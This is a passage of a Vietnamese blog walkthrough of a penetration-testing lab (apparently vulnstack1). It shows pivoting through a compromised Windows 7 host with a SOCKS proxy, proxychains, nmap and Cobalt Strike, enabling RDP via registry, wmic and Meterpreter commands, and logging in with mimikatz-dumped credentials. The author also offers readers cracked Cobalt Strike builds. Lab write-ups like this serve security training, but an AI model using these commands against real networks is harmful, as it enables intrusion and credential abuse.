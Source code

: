 ```
Lúc này ta đã có một socks5 proxy là máy windows 7, port 9000. 

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/46.jpg)

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/47.jpg)

**Để trực quan hơn chúng ta có thể sử dụng cobalt strike**

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/48.jpg)

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/49.jpg)

Công cụ này là một trong những công cụ cực kì tuyệt vời và nhiều tính năng, được sử dụng rất phổ biến trong các cuộc tấn công APT. Nhưng cũng không dễ để tìm được 1 bản crack ổn định cũng như đầy đủ các tính năng. Các bạn có thể tự tìm hiểu thêm về nó nhé. Sau hàng chục bản, mình cũng tìm được 1 vài bản ổn định. Nếu muốn các bạn có thể liên hệ với mình nhé!

### Exploit Internal Network
#### 192.168.51.141
Scan qua proxychains

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/50.jpg)

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/51.jpg)

Scan qua proxychains khá lâu. Có thể tải nmap về máy windows 7 rồi thực hiện scan hay cũng có thể remote desktop trực tiếp vào máy windows 7\
**Enable RDP, open port 3389**\
Using registry : If open, change 0 to 1
```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server/v fDenyTSConnections/t REG_DWORD/d 0/f 
```
Using wmic turns on 3389
```
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
```
Using metasploit
```
meterpreter > run getgui -e
meterpreter > run post/windows/manage/enable_rdp
```
Attacker remote
```
root@kali# rdesktop 192.168.18.128:3389
```
Sử dụng account đã lấy được khi dump với mimikatz

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/52.jpg)

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/53.jpg)
#### 192.168.51.138
Scan với nmap đã tải về máy Windows 7

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/54.jpg)

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/55.jpg)

**Domain GOD.ORG**

| Server      | IP | Hostname |
| :---        |    :----:   |    :----:   |
| Windows 7   | Internal Network : 192.168.52.143 - NAT : 192.168.18.128| STU1 |
| Windows Server 2003   | Internal Network  : 192.168.52.141        | ROOT-TVI862UBEH |
```